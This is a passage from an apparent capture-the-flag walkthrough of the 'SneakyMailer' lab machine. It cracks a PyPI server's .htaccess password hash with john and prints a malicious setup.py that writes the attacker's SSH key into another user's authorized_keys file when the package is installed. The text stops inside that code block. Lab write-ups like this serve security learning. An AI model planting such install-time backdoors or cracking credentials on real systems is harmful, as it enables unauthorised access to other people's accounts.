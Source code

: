 ```bash
```

We can use the password of `developer` to change user.

### PyPI Server

On poking around, we can see a process that is being run by `low`.

```bash
developer@sneakymailer:/$ ps aux | grep low
ps aux | grep low
low       1083  0.0  0.5  29952 20860 ?        Ss   12:33   0:17 /home/low/venv/bin/python /opt/scripts/low/install-modules.py
develop+ 24158  0.0  0.0   6076   884 pts/0    S+   22:50   0:00 grep low
```

We had also seen in the mail that `low` was doing `pypi` packages install for the system.

There is a `pypi` server running on `pypi.sneakycorp.htb:8080`. We can upload our own python package and get arbitrary code execution. It is is protected using a password. We can get the password from `.htaccess` file and crack it using `john`

```bash
$ cat .ht*
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/

kali@kali:~/Desktop/htb/sneaky$ john --wordlist=/usr/share/wordlists/rockyou.txt john                                                                                                                                                     
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
soufianeelhaoui  (pypi)
1g 0:00:00:30 DONE (2020-07-16 12:50) 0.03281g/s 117304p/s 117304c/s 117304C/s souheib2..souderton16
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## User shell

1. Download a `pypi` package.
2. Edit the setup file to include the code to append our `ssh` keys to `authorized_users`. Edit the `pypirc` file to include our credentials.
#### Setup.py  

    ```python
    kali@kali:~/Desktop/htb/sneaky/sysstat-0.1$ cat setup.py

    import setuptools
    try:
            with open("/home/low/.ssh/authorized_keys", "a") as f:
                    f.write("\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/SB6ZpFdorqmnLC/Rh+2KpkAlCf96RHUGCDQadLSdpdsKv/Od01qsgNXXpKmob1vUXxrV+emBZgkHgEB4dg77GXs39ebxxnGfP1NMX2nfd7fIjwA9keA3nLJfMNGUKXjbkctm9zMzh7hc+O9MfcZcClmEYuABz9D+ZYvIbK99d60BzDr9onZFPX5w+UCsZ+pKn8DIGiFDUmcvRyFB8XlzDZ/bnLxN+7Xm+S************************************************************AwNrlXxbH81W9P1fJDJ5hnTlQvEWox6qyljHystGvreORlDkMb/WSEcqtdls7T+OBEjfIZ3QsgjD89cnai8SYPxAoXRTBPRma7gVl9UKYOGIDrBTcGzfSvGsbbAj8IlBMyWLmn****b6zIUnkxDd8oOEWquD5UzCmc/7tHu683Ev904fixq5LyFuCHm8hw+/ISOM1PzCssE= kali@kali")
